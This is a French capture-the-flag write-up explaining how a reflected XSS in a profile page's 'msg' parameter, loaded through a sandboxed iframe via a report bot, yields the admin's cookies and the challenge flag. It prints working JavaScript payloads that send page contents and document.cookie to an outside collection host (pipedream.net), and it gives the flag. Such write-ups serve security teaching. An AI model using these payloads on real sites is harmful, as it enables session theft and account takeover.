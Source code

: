 # Contexte

Dans ce challenge, on a accès au code source de l'application. En utilisant l'application de manière normale, on s'aperçoit de plusieurs choses.
- Si on possède un cookie de session, on est automatiquement redirigé vers notre page de profil
- Il y a une XSS sur la page de profil avec le paramètre `msg` qui est reflété sur la page

# Quoi faire?

En regardant le code source de l'application, on sait que si l'username est `admin` le flag est affiché sur la page. Cependant, seul une personne en local pour donner le nom d'utilisateur `admin`.
Alors on va s'intéresser à la page de report, qui sera notre moyen d'interagir avec le bot.

# Premier essai

Puisqu'on peut envoyer une page HTML au bot, on peut essayer de lui demander de charger la page d'accueil et en suivant la redirection, on aura le flag.
```html
<html>
  ...
</html>
<script>

async function fetchAdmin() {
  const response = await fetch("https://ctf.esna.bzh:30005", { redirect: 'follow' }) // Go sur la page d'accueil en suivant les redirect
  const data = await response.text(); // recup des données
  return btoa(data); // return des données en B64
}

fetchAdmin().then(res => {
  fetch("pipedream.net?c=" + res) // Envoie des données
});
</script>
```

Malheuresement, ça serait trop beau, on récupère seulement la page d'accueil, aucune redirection est faite.
On va devoir bypass le Same-Origin Policy (SOP)

# Bypass SOP
Alors en faisant des recherches, on apprend qu'on peut bypass SOP en utilisant une iframe (comme prévenu dans le chall, ça marche sur Chrome, pas sur Firefox).

```html
<html>
  ...
</html>
<script>
    f = document.createElement('iframe'); // création d'une iframe
    
    f.sandbox = 'allow-forms allow-pointer-lock allow-popups allow-same-origin allow-scripts allow-top-navigation'; // ajout des attributs
    
    f.src = "https://ctf.esna.bzh:30005"; // donner la source pour afficher la page
    
    document.body.appendChild(f); // ajout de l'iframe à la page
  </script>
```
Effectivement, si on charge cette page-là sur notre navigateur, l'iframe suit bien la redirection vers la page de profile.
Chouette, c'est presque gagné

# XSS

Super, on a bypass SOP on a juste à récupérer les informations que l'on souhaite, et pour ça, on peut utiliser la XSS de la page profile, puisqu'elle est chargée.
Cependant l'url de l'iframe n'est pas modifié, on a toujours `https://ctf.esna.bzh:30005` et non `https://ctf.esna.bzh:30005/:id/profile?msg=test`.
En relisant le code, on s'aperçoit assez facilement que lorsqu'on charge la page d'accueil, on peut quand même passer le paramètre `msg` qui sera passé lors de la redirection vers la page de profile.

Parfait alors maitenant on a tous, alors on peut construire notre payload complète.
```html
<html>
  ...
</html>
<script>
    f = document.createElement('iframe'); // création d'une iframe
    
    f.sandbox = 'allow-forms allow-pointer-lock allow-popups allow-same-origin allow-scripts allow-top-navigation'; // ajout des attributs
    
    payload = "<script>fetch('https://pipedream.net/?c='.concat(document.cookie))</script>" // Payload pour exfiltrer les cookies
    
    f.src = "https://ctf.esna.bzh:30005?msg=" + payload // donner la source pour afficher la page
    
    document.body.appendChild(f); // Ajout de l'iframe à la page
  </script>
```

Super, ça marche chez moi, mais pas sur le bot.
Replongeons dans le code source du bot.
Le bot ne charge pas `ctf.esna.bzh` sur le port `30005`, mais `localhost` sur le port `3000`, on change donc la `src` de l'iframe pour `localhost:3000` 

Nice, on a récupéré les cookies de l'admin, on peut donc les utiliser dans notre navigateur et être redirigé vers la page de profile de l'admin et trouver le flag.
`ESNA{1fr4m3_c4n_l34d_t0_s3v3r4l_3xpl01t_!!}`
